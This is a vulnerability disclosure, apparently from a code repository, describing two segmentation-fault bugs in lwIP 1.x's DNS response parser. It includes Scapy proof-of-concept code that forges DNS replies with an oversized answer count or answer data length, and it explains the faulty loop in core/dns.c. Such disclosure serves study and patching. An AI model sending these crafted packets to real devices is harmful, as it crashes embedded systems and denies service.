

About DNS bugs
====

DNS function `dns_recv` of lwIP v 1.x is valnerable.
We found two DNS bugs, and marked them as DNS bug \#1, \#2.


Summary
-----


### DNS bug #1
A segmentation fault occurs when following conditions are met.

* _number of Answer Record_ is too large

### DNS bug #2
A segmentation fault occurs when following conditions are met.

* _number of Answer Record_ is at least 2
* _Data Length_ of _Answer Record_ is too large


PoC
----
### DNS bug #1
This bug can be triggered using following Scapy code.

```python
Ether(dst="11:22:33:44:55:66")/IP(src="8.8.8.8", dst="192.168.0.2")/UDP(sport=53, dport=dport)/DNS(id=0, qdcount=1, ancount=0xffff, qr=1, aa=0, tc=0, rd=1, ra=1, z=0, rcode=0, qd=DNSQR(qname='www.google.com.', qtype=1, qclass=1), an=DNSRR(rrname="www.google.com.", type=1, rdata="127.0.0.1"))
```

### DNS bug #2
This bug can be triggered using following Scapy code.
You must correct TCP checksum.

```python
b = bytes(Ether(dst="11:22:33:44:55:66")/IP(src="8.8.8.8", dst="192.168.0.2")/UDP(sport=53, dport=dport)/DNS(id=0, qdcount=1, ancount=2, qr=1, aa=0, tc=0, rd=1, ra=1, z=0, rcode=0, qd=DNSQR(qname='www.google.com.', qtype=1, qclass=1), an=DNSRR(rrname="www.google.com.", type=1, rdata="127.0.0.1")))
b = b.replace('\x00\x04\x7f\x00\x00\x01', '\xff\xff\x7f\x00\x00\x01')
```

PoC script for this bug is available: `script/attack-dns-bug-2.py`


Detail
----
Following snippet is a part of source code `core/dns.c`:

```c
while(nanswers > 0) {
  /* skip answer resource record's host name */
  pHostname = (char *) dns_parse_name((unsigned char *)pHostname);

  /* Check for IP address type and Internet class. Others are discarded. */
  MEMCPY(&ans, pHostname, sizeof(struct dns_answer));
  if((ntohs(ans.type) == DNS_RRTYPE_A) && (ntohs(ans.class) == DNS_RRCLASS_IN) && (ntohs(ans.len) == sizeof(struct ip_addr)) ) {
    [...]
  } else {
    pHostname = pHostname + sizeof(struct dns_answer) + htons(ans.len);
  }
  --nanswers;
}
```

### DNS bug #1
`nanswers` in the continuation condition of while is the value of the low-order 1 byte of the Answer RRs of the DNS response
be equivalent to. 
This while loop performs parsing of multiple _Answer records_. 
`pHostname` is pointing to the payload of DNS, and it is a pointer that remembers how far parsed it is.
The `dns_parse_name` function reads the address pointed to by `pHostname` and returns a pointer.

There is a possibility of causing a segmentation violation in order to advance.
DNS bug # 1 triggers an unnecessary while loop of large nanswers values, and occurs segmentation fault.

### DNS bug #2
DNS bug # 2 focuses on line 10, `+ htons (ans.len)`.
The added value is equal to _Data length_ of _Answer record_.
DNS bug # 2 adds a large value so that `pHostname` points to an unmapped region,

In the second and subsequent loops, DNS bug \#2 causes a segmentation fault while executing `dns_parse_name` function.